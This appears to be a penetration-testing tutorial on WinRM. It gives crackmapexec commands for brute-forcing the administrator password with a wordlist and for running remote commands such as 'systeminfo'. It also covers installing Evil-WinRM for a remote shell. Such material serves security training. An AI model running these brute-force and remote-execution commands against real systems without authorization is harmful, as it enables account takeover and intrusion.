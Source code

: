 #### Brute force WinRM using Crackmapexec

The _crackmapexec_ tool can be used for cracking various protocols including winrm. We can use the tool to brute force winrm.
- Available protocols: `ssh | winrm | smb | rdp | mssql | ldap | ftp`

General Brute Force Syntax: 
```
crackmapexec <protocol> -u <user_or_user_wordlist> -p <password_or_password_list>
```

Example:
```
crackmapexec winrm -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

We'd target the administrator account since we'll know its automatically there
also the administrator is typically used by system administrators here and we wouldn't need to perform privilege escalations later.

If there's a match the brute force will display `(Pwn3d!)` and stop the brute force. Now we can use the credentials to execute commands on the target
##### Execute Commands

We can use the `-x` options which can be used to execute commands on the target like `systeminfo` to collect information:

```
crackmapexec winrm -u administrator -p pqaeoirgq -x "systeminfo"
```

### Get a command shell using Evil-WinRM

**Evil-WinRM** is a tool designed for pentesters to remotely connect to and execute commands on Windows systems via WinRM. It facilitates tasks such as remote command execution, file transfers, and script execution, streamlining post-exploitation activities. Evil-WinRM requires Ruby version 2.6 or higher and most Linux distributions come with Ruby pre-installed.

You can install Evil-WinRM as a Ruby gem, which manages dependencies automatically:

```
gem install evil-winrm
```

Alternatively, you can install Evil-WinRM directly from its GitHub repository. Navigate to the project directory and download the dependencies with bundler (`bundle`). 

```
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
bundle install
```

- Note: Bundler  is a dependency management tool for Ruby applications that's included by default in Ruby version 2.6 and later. Use `gem install bundler` to install bundler for earlier versions of Ruby.
